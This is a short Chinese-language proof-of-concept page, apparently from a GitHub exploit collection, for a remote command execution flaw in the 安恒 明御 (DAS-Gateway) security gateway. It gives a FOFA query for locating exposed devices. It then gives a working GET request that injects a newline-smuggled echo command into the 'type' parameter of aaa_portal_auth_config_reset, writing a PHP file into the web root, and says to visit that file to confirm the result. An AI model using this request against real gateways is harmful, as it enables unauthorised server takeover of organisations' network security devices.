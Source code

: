 ## 安恒明御安全网关远程命令执行漏洞

明御安全网关秉持安全可视、简单 有效的只理念，以资产为视角，构建全流程防御的下一代安全防护体系，并融合传统防火墙、入侵检测、入侵防御系统、防病毒网关、上网行为管控、VPN网关、威胁情报等安全模块于一体的智慧化安全网关。明御安全网关aaa_portal_auth_config_reset接口处存在RCE漏洞，攻击者通过漏洞可以获取服务器权限。

## fofa
```
title="明御安全网关"
```

## poc
```
GET /webui/?g=aaa_portal_auth_config_reset&type=%0aecho%20%27%3C%3Fphp%20echo%20%22assdwdmpidmsbzoabahpjhnokiduw%22%3B%20phpinfo%28%29%3B%20%3F%3E%27%20%3E%3E%20%2Fusr%2Flocal%2Fwebui%2Ftxzfsrur.php%0a 

GET /webui/?g=aaa_portal_auth_config_reset&type=echo '<?php echo "assdwdmpidmsbzoabahpjhnokiduw"; phpinfo(); ?>' >> /usr/local/webui/txzfsrur.php

```

访问 `url/txzfsrur.php`
![image](https://github.com/wy876/POC/assets/139549762/a21845c0-ab48-46ea-b71b-9a168697ff7c)
